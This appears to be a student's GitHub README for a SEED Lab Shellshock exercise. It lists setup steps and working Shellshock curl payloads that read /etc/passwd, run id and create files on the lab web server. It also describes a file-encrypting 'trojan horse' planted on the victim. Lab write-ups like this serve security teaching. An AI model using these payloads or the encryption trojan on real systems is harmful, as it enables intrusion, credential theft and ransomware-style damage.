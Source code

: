 
## Work Description

- Shellshock Attack with Reverse Shell <br/>
- Local Client and Server using Socket Programming to launch attack <br/>
- Mini Implementation of Trojan Horse to encrpt user all files and decrypting it with key<br/>

## Prerequisite

- SEED Lab <br/>
- Pyhton3 Install in Virtual machine<br/>
- Cryptography module for encryption module <br/>
- Fernet module of python for encryption & decryption <br/> 


## Steps to Run the ShellShock Attack:

1. ---DNS Setting---<br/>
Check for DNS settings for shellshock Attack using command ```less /etc/hosts```.<br/>
2. ---Container Setup---.<br/>
Go in Lab setup and open terminal See if any container is running -> ```docker container list```.<br/>
See if any image is there -> ```docker image list```.<br/>
If you find difficulty For help type command ```docker run --help``` For conatiner help -> ```docker container --help```.<br/>
3. ---Build the container image---<br/>
Build and Run the Docker Compose using ```docker-compose build``` command in the folder after downloading labsetup files.<br/>
4.---Verify---<br/>
Run ```docker-compose up``` to set a trap at apache seed lab it will wait for victim. Check if victim is running ```dockps``` and run docker exec -> ```docksh```.<br/>
5. ---Web Server and CGI---<br/>
Check wheather the getenv and vul.cgi is present using ```ls /usr/lib/cgi-bin/``` <br/>
To check shell shock attack is possible or not I have created two C files ```listcommand.c``` and ```getpid.c``` to check wheather we can get victims shell access.<br/>
6. Run ```sudo cp bash_shellshock /bin/``` to run vulnerable shellshock shell.<br/>
Change permissions using ```sudo chown root vul``` and ```sudo chmod 4755 vul```.<br/>
7. Export a vulnerable function for instance ```export foo='() { echo "normal"; }; /bin/sh'``` and run it using ```./vul```.<br/>
8. ---Passing Data---<br/>
Once we have shell access of user we can use diffrent commands such as ```curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi``` to run files which we have created in labsetup folder in webserver using victims shell.<br/>
We can run several command like ```curl -H, e, and A``` to get diffrent infoirmation about users like passwords files or environment variables of victims.<br/> 
To get password file run  ```curl -A"() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```.<br/> 
You can verify in victims terminal by running ```cat /etc/passwd```<br/>
To get user process id and pid and gpid run ```curl -e "() { echo hello; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```<br/>
9. We can create a virus folder in victim using ```curl -H "ATTACK: () { echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/virus" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi``` using this folder we will inject our malicious python scripty to encrypt and decrypt users important files. <br/> To check for folder in victims  run ```ls/tmp``` <br/>
10. Finally we can implement our trojan horse attack using the pyhton script uploaded in my github branch.<br/> 

Close lab close container  by ```docker-compose down``` <br/>

- Note:  If you have any concern reach me out and if you want contribute kindly open a pull request.


## Reference

- For the implementation of shellshock, seedlab setup is used (https://seedsecuritylabs.org/Labs_20.04/Web/Shellshock/).<br/>
- I have made changes in the docker-compose of the project and also creted several C files to get key information about users like PID GPID or to display users files and folders.<br/>
- The implmentation of trojan horse to encrpy and decrpt files in local Client and server using socket programming is created by me<br/>

## Author

- Fahad Patel - 110085698

